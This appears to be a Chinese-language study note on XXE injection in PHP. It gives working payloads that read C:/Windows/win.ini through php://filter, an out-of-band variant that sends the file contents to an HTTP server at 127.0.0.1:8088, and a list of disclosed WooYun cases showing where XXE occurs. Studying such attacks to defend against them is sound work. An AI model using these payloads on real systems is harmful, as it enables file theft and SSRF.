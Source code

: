 ## 利用参数XXE读取文件/访问网络

```php
<?php
$s=<<<string
<!DOCTYPE a [<!ENTITY % b SYSTEM "http://127.0.0.1:8088/evil.txt">%b;]>
<c>&d;</c>
string;
echo simplexml_load_string($s);
// evil.txt :  <!ENTITY d SYSTEM "php://filter/convert.base64-encode/resource=C:/Windows/win.ini">
```

## XXE OOB

如果没有回显也没关系，可以利用外部参数实体将文件内容发送出去。这里注意参数实体引用 `%file;` 必须放在外部文件里，因为根据这条 [规则](https://www.w3.org/TR/xml/#wfc-PEinInternalSubset) ，在内部DTD里， 参数实体引用只能和元素同级而不能直接出现在元素声明内部，否则parser会报错： `PEReferences forbidden in internal subset ` 。这里的`internal subset` 指的是中括号`[]` 内部的一系列元素声明，`PEReferences ` 指的应该是参数实体引用 `Parameter-Entity Reference` 。

感觉在技术方面英文的表达力更强，这种情况叫做 `fetch external parsed entities using PEReference` 更好理解。

```php
<?php
$s=<<<string
<!DOCTYPE a [<!ENTITY % xxe SYSTEM "http://127.0.0.1:8088/xxe.txt"> %xxe;]>
string;
simplexml_load_string($s);
/* // http://127.0.0.1:8088/xxe.txt:
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=C:/Windows/win.ini">
<!ENTITY % x '<!ENTITY &#37; send SYSTEM "http://127.0.0.1:8088/%file;">'> %x;
%send;
*/
```

# 真实案例

- 在线文件预览引起的问题，修改docx文件的word/document.xml，添加DTD和实体引用，即可触发。
  - WooYun-2014-73321（网易邮箱某处XXE可读取文件）
  - WooYun-2014-73439（QQ邮箱XXE可读取任意文件）
  - ......
- 直接处理POST XML数据。WooYun-2015-109725（中通某处XXE漏洞可读取服务器任意文件）等很多。许多是直接 `simplexml_load_string` 处理POST进来的数据。可控字符串出现在XML文件里就要引起注意。
- XML处理工具
  - WooYun-2014-59911（从开源中国的某XXE漏洞到主站shell）格式化XML。
  - WooYun-2015-134057（百度某平台Blind XXE漏洞&可Bool型SSRF攻击）XML检查工具。
  - WooYun-2015-135397（搜狗某平台Blind XXE漏洞(读取文件/SSRF/Struts2命令执行) XML检查工具
- WooYun-2014-58381（百度某功能XML实体注入）该功能点提供svg转jpg服务，通过构造特殊svg文件注入。
- WooYun-2014-74069（鲜果网RSS导入Blind XXE漏洞 ）导入OPML文件。
- WooYun-2015-111828（博客园某处XXE可下载任意文件）博客搬家功能，导入XML。
- WooYun-2015-117316（用友人力资源管理软件全版本XXE漏洞  ）登陆与重置密码时使用XML传输数据。
- WooYun-2015-148793（AOL Website XML External Entity(XXE) Vulnerability）xmlrpc service。
- WooYun-2015-156208（国际php框架slim架构上存在XXE漏洞（XXE的典型存在形式））服务端根据请求的 `content-type ` 来区别对待提交的数据。`application/x-www-form-urlencoded` 、`application/json` 、`application/xml` 被用不同的方式解析。XML直接调用 `simplexml_load_string` 处理导致漏洞。有趣的是旧版本对该问题做了防范，新版本去除了相关代码，可能是觉得新版本对PHP版本需求在5.5以上。实际上PHP是否解析外部实体与本身版本无关，与编译时libxml库版本有关。
- WooYun-2016-168457（唯品会存在Blind XXE 漏洞）。作者说 `关于XXE,觉得漏洞本身没太多的玩点，比较有意思主要在于：不同语言处理URI的多元化和不同XML解析器在解析XML的一些特性。` ，我觉得有道理。`xfire是流行的webservice开发组件，其在invoke时使用了STAX解析XML导致XML实体注入发生` 。乌云上一大波XXE洞都是这个，详细说明见 WooYun-2016-166751(Xfire文件读取漏洞)。
- WooYun-2014-59911（从开源中国的某XXE漏洞到主站shell）XXE读取到脚本文件`/home/run/ssh_go.sh` ，内含SSH登陆密码 orz。
- 一些其他案例
  - [XXE in OpenID: one bug to rule them all, or how I found a Remote Code Execution flaw affecting Facebook's servers](https://www.ubercomp.com/posts/2014-01-16_facebook_remote_code_execution) 【Facebook OpenID功能点的XRDS XXE】